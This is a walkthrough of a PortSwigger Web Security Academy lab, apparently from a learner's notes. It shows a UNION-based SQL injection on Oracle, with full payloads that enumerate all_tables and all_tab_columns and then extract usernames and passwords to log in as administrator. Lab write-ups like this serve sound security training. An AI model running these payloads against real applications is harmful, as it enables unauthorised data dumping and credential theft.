




# Lab 10: SQL Injection Attack — Listing the Database Contents on Oracle

**Platform:** PortSwigger Web Security Academy

## What's going on here

Same goal as Lab 9 — map the whole database and pull credentials from nothing — but Oracle keeps its metadata somewhere different. No `information_schema` here; Oracle uses its own system views, `all_tables` and `all_tab_columns`, to expose the same information.

## 🎯 Target

Discover the credentials table, find its username/password columns, and log in as `administrator`.

## The bypass

First, confirmed the column layout: two columns, both text-capable, using Oracle's `dual` table.

'+UNION+SELECT+'abc','def'+FROM+dual--

**Step 1 — list every table in the database:**

'+UNION+SELECT+table_name,NULL+FROM+all_tables--

Scanned for a credentials-looking table — something like `USERS_ABCDEF`, randomized suffix included.

**Step 2 — list that table's columns:**

'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--

Found the username and password column names among the results.

**Step 3 — pull the actual credentials:**

'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--

Located `administrator`'s row, grabbed the password, logged in.

## Result

Full Oracle schema mapped, credentials extracted, logged in as `administrator`.

## Takeaway

`all_tables` and `all_tab_columns` are Oracle's answer to `information_schema` — different names, same idea. Once you know an engine's metadata views, no database stays a black box for long, Oracle included.

---

Every database in this path has now handed over its full contents through a UNION attack — tables, columns, credentials, all of it. But UNION only works when the app actually shows query results on the page. What happens when it doesn't show anything at all, and the only signal is true or false? Time to go blind: **[Lab 11 — Blind SQL Injection with Conditional Responses](lab-11-blind-conditional.md)**.
